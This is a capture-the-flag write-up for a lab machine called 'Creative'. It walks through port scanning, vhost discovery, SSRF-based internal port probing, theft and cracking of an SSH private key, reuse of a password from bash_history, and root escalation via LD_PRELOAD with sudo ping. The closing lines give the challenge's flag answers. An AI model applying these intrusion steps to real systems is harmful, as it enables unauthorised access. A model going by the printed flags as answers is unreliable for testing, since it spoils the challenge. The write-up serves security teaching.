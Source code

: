 # Creative
(flags are at the end of the writeup)

### boot2root
Initial scan shows port 22 and 80 open.

    # Nmap 7.94SVN scan initiated Sun Oct 27 20:21:21 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sV -sC -oN scan 10.10.239.164
    Nmap scan report for 10.10.239.164
    Host is up (0.045s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
    |   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
    |_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://creative.thm
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Since port 80 is redirecting packets to creative.thm, add the following line to the `/etc/hosts` file

    Target_IP creative.thm
I started enumerating, the webpage has nothing interesting. I used gobuster to enumerate directories and subdomains, but nothing. Then I used it again to enumerate vhosts. The command I used is the following: `gobuster vhost -u "http://10.10.239.164" --domain creative.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320`. 
Here's the explanation for this command: 

    gobuster vhost: use the vhost enumeration mode
    -u: specify host
    --domain: specify domain name
    -w: specify wordlist
    --append-domain: adds "creative.thm" to the terms from the wordlist
    --exclude-length 250-320: filters answers based on the length between 250 and 320, avoiding error messages.
![image](https://github.com/user-attachments/assets/b8231f8a-0c5b-4180-aa84-85fdf19658a3)<br />
To access `beta.creative.thm`, add it into the `/etc/hosts` file. Tne page seems to be a page to test the existence of a URL: <br />
![image](https://github.com/user-attachments/assets/8fbf0464-82aa-4df1-89ed-6ee75514a2e2)<br />
If I try to test my own URL using a netcat listener, we get a GET request from `python-request 2.28.2`. Some reaserch suggests that there's no usable vulnerability of this package. After that I tried to enumerate open ports on this host by submitting the URL `http://127.0.0.1:PORT`. To do that, I captured the request on burpsuite and copied it in a file called `request.req`:<br />
![image](https://github.com/user-attachments/assets/a57e31c3-6425-4440-9dc5-c2baedfe3519)<br />
Then I run the following command: `ffuf -request request.rec --request-proto http -w <(seq 1 65535) -fw 3`:<br />
![image](https://github.com/user-attachments/assets/6ab3e9dd-5cb8-42df-ab7b-ba0dfdff7714)<br />
Found port 1337 open:<br />
![image](https://github.com/user-attachments/assets/88686e03-df18-4530-a6c1-97231793052d)<br />
Navigating in the directories, I found saad's private key:<br />
![image](https://github.com/user-attachments/assets/1a404eb1-c861-430d-8a68-00d215975c8f)<br />
![image](https://github.com/user-attachments/assets/8d0cb5f2-978b-4655-83d8-b0c994700d60)<br />
So I'm gonna use it to login into his account.<br />
![image](https://github.com/user-attachments/assets/5c978bba-62d5-4a15-a6cf-a2d9d7cc8034)<br />
It asks for a passphrase. Run `ssh2john id_rsa > id_rsa.hash` and then `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash`<br />
![image](https://github.com/user-attachments/assets/7f2d441a-dadf-48a6-b3b9-ef32af01e16a)<br />
I can now log into saad's account and get the user flag. Immediatly found some credentials in the bash_history file:<br />
![image](https://github.com/user-attachments/assets/9d1c792a-fc9b-423c-ab77-8a075b09bb12)<br />
And also some possible DB users:<br />
![image](https://github.com/user-attachments/assets/45e07072-d472-4625-b038-65f3f2b8a9ae)<br />
After enumerating the machine, I run `sudo -l`, when it prompts for the password, I used `MyStrongestPasswordYet$4291`<br />
![image](https://github.com/user-attachments/assets/ba605223-c8ed-4096-959e-a97842749146)<br />
There's no way to escalate to root using `ping`. But we can do it thanks to the LDPRELOAD. LDPRELOAD is an environment variable that let's you specify a shared library to load BEFORE executing the binary it self. Since we have sudo on the ping command, we can run it with root privileges, and use it to execute a shared library that we create. Create the exploit.c file(it's inside this folder), then compile it as a shared object using the following command: `gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles`. And now run `sudo LD_PRELOAD=/home/saad/exploit.so ping`. If it asks for a password, use again `MyStrongestPasswordYet$4291`:<br />
![image](https://github.com/user-attachments/assets/a31637ad-4778-481b-acd8-55146aa32419)<br />







- What is user.txt? `9a1ce90a7653d74ab98630b47b8b4a84`
- What is root.txt? `992bfd94b90da48634aed182aae7b99f`

